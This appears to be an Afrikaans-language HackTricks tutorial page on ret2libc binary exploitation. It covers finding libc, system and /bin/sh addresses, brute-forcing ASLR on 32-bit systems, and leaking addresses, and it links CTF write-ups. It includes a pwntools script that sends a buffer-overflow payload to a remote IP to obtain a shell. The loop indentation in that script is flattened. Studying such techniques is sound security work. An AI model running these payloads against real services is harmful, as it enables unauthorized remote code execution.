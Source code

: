 # Ret2lib

{{#include ../../../../banners/hacktricks-training.md}}

## **Basiese Inligting**

Die essensie van **Ret2Libc** is om die uitvoeringsvloei van 'n kwesbare program te herlei na 'n funksie binne 'n gedeelde biblioteek (bv., **system**, **execve**, **strcpy**) in plaas daarvan om aanvaller-geleverde shellcode op die stapel uit te voer. Die aanvaller vervaardig 'n payload wat die terugkeeradres op die stapel aanpas om na die gewenste biblioteekfunksie te wys, terwyl hy ook sorg dat enige nodige argumente korrek opgestel word volgens die aanroepkonvensie.

### **Voorbeeld Stappe (vereenvoudig)**

- Kry die adres van die funksie om aan te roep (bv. system) en die opdrag om aan te roep (bv. /bin/sh)
- Genereer 'n ROP-ketting om die eerste argument wat na die opdragstring wys en die uitvoeringsvloei na die funksie oor te dra

## Vind die adresse

- Aannemend dat die `libc` wat gebruik word die een van die huidige masjien is, kan jy vind waar dit in geheue gelaai sal word met:
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
As jy wil kyk of die ASLR die adres van libc verander, kan jy doen:
```bash
for i in `seq 0 20`; do ldd ./<bin> | grep libc; done
```
- Deur die libc wat gebruik word te ken, is dit ook moontlik om die offset na die `system` funksie te vind met:
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```
- Deur die libc wat gebruik word te ken, is dit ook moontlik om die offset na die string `/bin/sh` funksie te vind met:
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```
### Gebruik gdb-peda / GEF

As jy die libc ken wat gebruik word, is dit ook moontlik om Peda of GEF te gebruik om die adres van die **system** funksie, die **exit** funksie en die string **`/bin/sh`** te kry:
```
p system
p exit
find "/bin/sh"
```
### Gebruik van /proc/\<PID>/maps

As die proses **kinders** skep elke keer as jy met dit praat (netwerkbediener), probeer om daardie lêer te **lees** (waarskynlik sal jy root nodig hê).

Hier kan jy **presies vind waar die libc gelaai is** binne die proses en **waar dit gelaai gaan word** vir elke kind van die proses.

![](<../../../../images/image (95).png>)

In hierdie geval is dit gelaai in **0xb75dc000** (Dit sal die basisadres van libc wees)

## Onbekende libc

Dit mag moontlik wees dat jy **nie weet watter libc die binêre laai nie** (omdat dit dalk op 'n bediener geleë is waar jy geen toegang het nie). In daardie geval kan jy die kwesbaarheid misbruik om **adres te lek en uit te vind watter libc** biblioteek gebruik word:

{{#ref}}
rop-leaking-libc-address/
{{#endref}}

En jy kan 'n pwntools-sjabloon hiervoor vind in:

{{#ref}}
rop-leaking-libc-address/rop-leaking-libc-template.md
{{#endref}}

## Om ASLR in 32-bis te omseil

Hierdie brute-forcing aanvalle is **slegs nuttig vir 32-bis stelsels**.

- As die ontploffing plaaslik is, kan jy probeer om die basisadres van libc te brute-force (nuttig vir 32-bis stelsels):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
- As jy 'n afstandsbediening bediener aanval, kan jy probeer om die **adres van die `libc` funksie `usleep` te brute-force**, met 10 as argument (byvoorbeeld). As die **bediener op 'n stadium 10s ekstra neem om te antwoord**, het jy die adres van hierdie funksie gevind.

## Een Gadget

{{#ref}}
../../one-gadget.md
{{#endref}}

## x86 Ret2lib Kode Voorbeeld

In hierdie voorbeeld is ASLR brute-force geïntegreer in die kode en die kwesbare binêre is geleë op 'n afstandsbediening bediener:
```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()

for off in range(0xb7000000, 0xb8000000, 0x1000):
p = ""
p += p32(off + 0x0003cb20) #system
p += "CCCC" #GARBAGE, could be address of exit()
p += p32(off + 0x001388da) #/bin/sh
payload = 'A'*0x20010 + p
c.send(payload)
c.interactive()
```
## x64 Ret2lib Kode Voorbeeld

Kyk na die voorbeeld van:

{{#ref}}
../rop-return-oriented-programing.md
{{#endref}}

## Ret-into-printf (of puts)

Dit stel jou in staat om **inligting van die proses te lek** deur `printf`/`puts` aan te roep met spesifieke data as 'n argument.

## Ret2printf

Dit beteken basies om 'n **Ret2lib te misbruik om dit in 'n `printf` formaat string kwesbaarheid te transformeer** deur die `ret2lib` te gebruik om printf aan te roep met die waardes om dit te benut (klank nutteloos maar moontlik):

{{#ref}}
../../format-strings/
{{#endref}}

## Ander Voorbeelde & verwysings

- [https://guyinatuxedo.github.io/08-bof_dynamic/csaw19_babyboi/index.html](https://guyinatuxedo.github.io/08-bof_dynamic/csaw19_babyboi/index.html)
- Ret2lib, gegee 'n lek na die adres van 'n funksie in libc, met behulp van een gadget
- [https://guyinatuxedo.github.io/08-bof_dynamic/csawquals17_svc/index.html](https://guyinatuxedo.github.io/08-bof_dynamic/csawquals17_svc/index.html)
- 64 bit, ASLR geaktiveer maar geen PIE nie, die eerste stap is om 'n oorgang te vul tot die byte 0x00 van die canary om dan puts aan te roep en dit te lek. Met die canary word 'n ROP gadget geskep om puts aan te roep om die adres van puts van die GOT te lek en dan 'n ROP gadget om `system('/bin/sh')` aan te roep.
- [https://guyinatuxedo.github.io/08-bof_dynamic/fb19_overfloat/index.html](https://guyinatuxedo.github.io/08-bof_dynamic/fb19_overfloat/index.html)
- 64 bits, ASLR geaktiveer, geen canary nie, stap oorgang in hoof vanaf 'n kind funksie. ROP gadget om puts aan te roep om die adres van puts van die GOT te lek en dan 'n een gadget aan te roep.
- [https://guyinatuxedo.github.io/08-bof_dynamic/hs19_storytime/index.html](https://guyinatuxedo.github.io/08-bof_dynamic/hs19_storytime/index.html)
- 64 bits, geen pie, geen canary, geen relro, nx. Gebruik write funksie om die adres van write (libc) te lek en roep een gadget aan.

{{#include ../../../../banners/hacktricks-training.md}}
